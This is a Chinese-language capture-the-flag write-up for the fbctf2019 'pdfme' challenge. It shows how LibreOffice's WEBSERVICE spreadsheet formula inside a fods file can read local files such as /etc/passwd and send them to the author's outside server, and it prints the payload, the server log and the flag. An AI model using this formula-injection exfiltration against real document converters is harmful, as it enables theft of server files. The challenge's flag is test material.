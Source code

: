 # pdfme

Solved: 63

### [English Version](https://github.com/w181496/CTF/blob/master/fbctf2019/pdfme/README_en.md)

<br>

這題其實跟DCTF Final某題非常像

只是當初沒解出來，所以這題還是花了很多時間解XD

找個fods file，然後可以在裡頭用 libreoffice macro 去任意讀檔

讀出來的內容可以用`WEBSERVICE`往外傳



`=COM.MICROSOFT.WEBSERVICE(&quot;http://kaibro.tw/x&quot;)` => send http request to my server

`=COM.MICROSOFT.WEBSERVICE(&quot;/etc/passwd&quot;)` => read `/etc/passwd` file

組合起來

`=COM.MICROSOFT.WEBSERVICE(&quot;http://kaibro.tw/x&quot;&amp;COM.MICROSOFT.WEBSERVICE(&quot;/home/libreoffice_admin/flag&quot;))`

會把帶有 flag 的 Request 送到我們的 server: 

`[01/Jun/2019:22:05:06 +0000] "OPTIONS /xfb%7Bwh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful%7D%0A HTTP/1.1" 200 193 "-" "LibreOffice"`



flag: `fb{wh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful}`

詳細見payload: [flag.fods](https://github.com/w181496/CTF/blob/master/fbctf2019/pdfme/flag.fods)

<br>

p.s. 這邊有一個小地方要注意

就是flag不在根目錄下XD

我後來讀`/etc/passwd`，發現有`libreoffice_admin`這個 user

才猜測flag在他的家目錄下面
